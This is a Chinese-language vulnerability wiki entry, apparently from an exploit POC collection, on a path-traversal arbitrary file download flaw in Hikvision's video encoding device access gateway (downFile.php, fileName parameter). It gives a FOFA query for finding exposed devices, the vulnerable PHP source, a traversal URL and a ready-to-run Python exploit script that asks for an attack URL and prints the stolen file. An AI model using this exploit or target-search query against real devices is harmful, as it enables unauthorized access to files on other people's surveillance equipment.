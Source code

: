 # HIKVISION 视频编码设备接入网关 任意文件下载

## 漏洞描述

海康威视视频接入网关系统在页面/serverLog/downFile.php的参数fileName存在任意文件下载漏洞

## 漏洞影响

> [!NOTE]
>
> HIKVISION 视频编码设备接入网关

## FOFA

> [!NOTE]
>
> title="视频编码设备接入网关"

## 漏洞复现

![](http://wikioss.peiqi.tech/vuln/hiv-3.png)

漏洞文件为 **downFile.php**, 其中 **参数 fileName** 没有过滤危险字符，导致可文件遍历下载

```php
<?php
$file_name=$_GET['fileName'];
$file_dir = "../../../log/";
if   (!file_exists($file_dir.$file_name))   {   //检查文件是否存在  
  echo'<script> alert("文件不存在!");window.history.back(-1);</script>'; 
  exit();

}else{	
	$file = fopen($file_dir . $file_name,"r"); // 打开文件
	// 输入文件标签
	Header("Content-type: application/octet-stream");
	Header("Accept-Ranges: bytes");
	Header("Accept-Length: ".filesize($file_dir . $file_name));
	Header("Content-Disposition: attachment; filename=" . $file_name);
	// 输出文件内容
	echo fread($file,filesize($file_dir.$file_name));
	fclose($file);
	exit();
}
?> 
```

访问 http://xxx.xxx.xxx.xxx/serverLog/downFile.php?fileName=../web/html/serverLog/downFile.php 下载文件

![](http://wikioss.peiqi.tech/vuln/hiv-1.png)

## 漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: HIKVISION 视频编码设备接入网关                               \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/serverLog/downFile.php?fileName=../web/html/serverLog/downFile.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/serverLog/downFile.php?fileName=../web/html/serverLog/downFile.php \033[0m".format(target_url))
        if "$file_name" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 downFile.php \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/hiv-2.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> HIKVISION_Video_coding_equipment_Download_any_file

![](http://wikioss.peiqi.tech/vuln/hiv-4.png)